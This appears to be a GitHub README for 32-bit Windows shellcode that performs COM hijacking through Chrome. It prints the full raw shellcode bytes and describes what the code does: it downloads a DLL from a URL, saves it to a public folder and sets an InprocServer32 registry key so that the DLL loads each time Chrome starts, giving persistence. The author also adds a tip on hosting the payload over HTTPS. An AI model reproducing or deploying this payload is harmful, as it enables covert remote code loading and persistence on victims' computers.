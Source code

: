# x86-com-hijack-shellcode
32 bit shellcode that performs COM hijacking with Chrome

## Usage: 
The shellcode will download a DLL from the URL "http://localhost/d.dll" and save it to "C:\Users\Public\d.dll". It then creates the registry key "HKCU\SOFTWARE\Classes\CLSID\{A4B544A1-438D-4B41-9325-869523E2D6C7}\InprocServer32", and sets the following values in it:
- (Default) = "C:\Users\Public\d.dll"
- ThreadingModel = "Apartment"

With these values set d.dll will be executed every time Google Chrome starts up, resulting in persistence on the system.

This shellcode is free of some common bad characters, including \x00, \x0a, and \x0d. The shellcode is position independent as well.

### Note:
The URLDownloadToFileA API is picky about the URLs supplied to it, and I could not get the API to work over HTTP with any sites I was accessing over WAN. However, HTTPS works just fine, so be sure to host the DLL on a URL over HTTPS if modifying the shellcode to download something over the internet.

### Raw shellcode:
\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0f\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x33\x59\xe0\x8e\xff\x55\x04\x89\x45\x10\x68\x6c\x43\x3c\x58\xff\x55\x04\x89\x45\x14\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\x55\x14\x89\xc3\x68\x33\x9d\x5e\x72\xff\x55\x04\x89\x45\x18\x31\xc0\x50\x68\x2e\x64\x6c\x6c\x68\x70\x69\x33\x32\x68\x61\x64\x76\x61\x54\xff\x55\x14\x89\xc3\x68\xf4\x39\x35\xca\xff\x55\x04\x89\x45\x1c\x68\xf3\x30\xa0\x7e\xff\x55\x04\x89\x45\x20\x68\xd5\xd2\x53\xfd\xff\x55\x04\x89\x45\x24\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x2f\x64\x2e\x64\x68\x68\x6f\x73\x74\x68\x6f\x63\x61\x6c\x68\x3a\x2f\x2f\x6c\x68\x68\x74\x74\x70\x54\x5f\x31\xc0\xb0\x6c\x50\x68\x64\x2e\x64\x6c\x68\x6c\x69\x63\x5c\x68\x5c\x50\x75\x62\x68\x73\x65\x72\x73\x68\x43\x3a\x5c\x55\x54\x5e\x31\xc0\x50\x50\x56\x57\x50\xff\x55\x18\x31\xc0\x50\x54\x5f\x50\x68\x65\x72\x33\x32\x68\x53\x65\x72\x76\x68\x70\x72\x6f\x63\x68\x7d\x5c\x49\x6e\x68\x44\x36\x43\x37\x68\x32\x33\x45\x32\x68\x38\x36\x39\x35\x68\x33\x32\x35\x2d\x68\x34\x31\x2d\x39\x68\x44\x2d\x34\x42\x68\x2d\x34\x33\x38\x68\x34\x34\x41\x31\x68\x41\x34\x42\x35\x68\x49\x44\x5c\x7b\x68\x5c\x43\x4c\x53\x68\x73\x73\x65\x73\x68\x5c\x43\x6c\x61\x68\x57\x41\x52\x45\x68\x53\x4f\x46\x54\x54\x59\x50\x57\x50\xbb\xff\x3f\x01\x0f\xc1\xeb\x08\x53\x50\x50\x50\x51\xb8\xff\xff\xff\x7f\xf7\xd8\x50\xff\x55\x1c\xb8\xeb\xff\xff\xff\xf7\xd8\x50\x56\x31\xc0\x40\x50\x48\x50\x50\x8b\x3f\x57\xff\x55\x20\xb8\x8c\xff\xff\xff\xf7\xd8\x50\x68\x74\x6d\x65\x6e\x68\x41\x70\x61\x72\x54\x5b\x66\xb8\x65\x6c\x50\x68\x67\x4d\x6f\x64\x68\x61\x64\x69\x6e\x68\x54\x68\x72\x65\x54\x59\xb8\xf6\xff\xff\xff\xf7\xd8\x50\x53\xb0\x01\x50\x48\x50\x51\x57\xff\x55\x20\x57\xff\x55\x24\x31\xc9\x51\x6a\xff\xff\x55\x10
